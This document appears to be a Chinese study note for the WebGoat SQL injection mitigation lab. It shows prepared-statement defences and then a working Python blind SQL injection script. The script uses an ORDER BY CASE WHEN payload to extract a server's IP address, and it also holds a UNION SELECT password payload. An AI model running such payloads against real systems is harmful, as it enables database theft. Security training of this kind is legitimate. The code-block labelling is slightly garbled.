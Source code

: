 

### SQL Injection(mitigation)

#### 防御 sql 注入，其实就是 session，参数绑定，存储过程这样的注入。

```javascript
// 利用 session 防御，session 内容正常情况下是用户无法修改的 select * from users where user = "'" +
session.getAttribute("UserID") + "'";
// 参数绑定方式，利用了 sql 的预编译技术
String query = "SELECT * FROM users WHERE last_name = ?";
PreparedStatement statement = connection.prepareStatement(query);
statement.setString(1, accountName);
ResultSet results = statement.executeQuery();
```

上面说的方式也不是能够绝对的进行 sql 注入防御，只是减轻。
如参数绑定方式可以使用下面方式绕过。
通过使用 case when 语句可以将 order by 后的 orderExpression 表达式中添加 select 语句。

```python
import requests
from string import digits
chars = digits+"."

data1 ="username_reg=tomx'+union+select+password+from+sql_challenge_users+where+userid%3D'teom'--+-&email_reg=7702%40qq.com&password_reg=123&confirm_password_reg=123"
headers = {
    'X-Requested-With': 'XMLHttpRequest'
}
cookies = {
    'JSESSIONID': 'K52JTW9G7ys_YpyyGOCHCeMxSI4FTEKm4WebtUhF',
    'JSESSIONID.75fbd09e': '7mc1x9iei6ji4xo2a3u4kbz1'
}
i = 0
result = ""
proxy={"http": "http://127.0.0.1:8080"}
while True:
    i += 1
    temp = result
    for char in chars:
        vul_url ="http://localhost:8080/WebGoat/SqlInjectionMitigations/servers?column=case%20when%20(select%20substr(ip,{0},1)='{1}'%20from%20servers%20where%20hostname='webgoat-prd')%20then%20hostname%20else%20mac%20end".format(i, char)
        resp = requests.get(vul_url, headers=headers, cookies=cookies, proxies=proxy)
        # print(resp.json())
        if 'webgoat-acc' in resp.json()[0]['hostname']:
            result += char
            print(result)
        if temp == result:
            break
```

